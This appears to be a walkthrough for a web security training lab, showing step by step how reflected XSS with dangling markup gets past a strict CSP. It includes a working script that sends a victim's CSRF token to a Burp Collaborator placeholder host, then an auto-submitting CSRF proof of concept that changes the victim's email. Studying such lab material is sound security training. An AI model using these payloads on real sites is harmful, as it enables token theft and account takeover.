# Lab 15: Reflected XSS protected by very strict CSP, with dangling markup attack

This lab uses a **strict Content Security Policy (CSP)** that blocks outgoing requests to external websites.

---

## 🎯 Objective

> First, perform a cross-site scripting (XSS) attack that bypasses CSP and exfiltrates the victim’s CSRF token using Burp Collaborator.
> 
> 
> Then, change the victim user's email address to:
> 
> `hacker@evil-user.net`
> 

📝 **Note:** Your XSS **must contain the label** `Click` to induce the simulated user to click it:

```html
<a href="">Click me</a>
```

✅ You can log in to your own account using the credentials:

**Username:** `wiener`

**Password:** `peter`

---

## 🧪 Walkthrough

### 🔍 Step 1: Identify the Vulnerability

- Log in to the lab using the credentials provided.
- Examine the **change email** functionality.
- Observe that an **XSS vulnerability exists in the `email` parameter**.

---

### 🌐 Step 2: Prepare Collaborator Payload

- Open **Burp Collaborator** tab.
- Click **"Copy to clipboard"** to copy your unique Collaborator subdomain.

---

### 🧨 Step 3: Craft the Exploit

Go to the **exploit server** and paste the following code into the body:

```html
<script>
if(window.name) {
    new Image().src='//BURP-COLLABORATOR-SUBDOMAIN?'+encodeURIComponent(window.name);
} else {
    location = 'https://YOUR-LAB-ID.web-security-academy.net/my-account?email=%22%3E%3Ca%20href=%22https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/exploit%22%3EClick%20me%3C/a%3E%3Cbase%20target=%27';
}
</script>
```

> 🔁 Replace:
> 
> - `BURP-COLLABORATOR-SUBDOMAIN` with your Collaborator domain.
> - `YOUR-LAB-ID` with your lab instance ID.
> - `YOUR-EXPLOIT-SERVER-ID` with your exploit server ID.
- Click **Store**, then **Deliver exploit to victim**.

---

### 📡 Step 4: Exfiltrate the CSRF Token

- After the victim clicks the **"Click me"** link, go back to Burp → **Collaborator tab**.
- Click **"Poll now"**.
- You should see an **HTTP interaction** initiated by the browser.
- Select the interaction → go to **Request tab** → **Copy the CSRF token**.

---

### ✏️ Step 5: Change Victim's Email Address

### a. Capture and Prepare the Request

- Switch **Intercept ON** in Burp.
- Go to the **change email** form → submit with any email.
- Intercept the request → **change `email` to `hacker@evil-user.net`**.

### b. Generate CSRF Proof of Concept (PoC)

- Right-click the intercepted request →
    
    **Engagement Tools > Generate CSRF PoC**.
    
- In the generated HTML:
    - Replace the CSRF token with the one stolen earlier.
- Click **Options** → ensure **"Include auto-submit script"** is enabled.
- Click **Regenerate** → **Copy HTML**.

### c. Deliver Final Exploit

- Paste the final CSRF HTML into the **exploit server body** (overwrite the earlier script).
- Click **Store**, then **Deliver exploit to victim**.

> 🎯 The lab is solved once the user’s email is changed to hacker@evil-user.net.
> 

---

## 🎥 Community Solutions

📺 [Watch the full walkthrough](https://youtu.be/hp_djQ62GEc)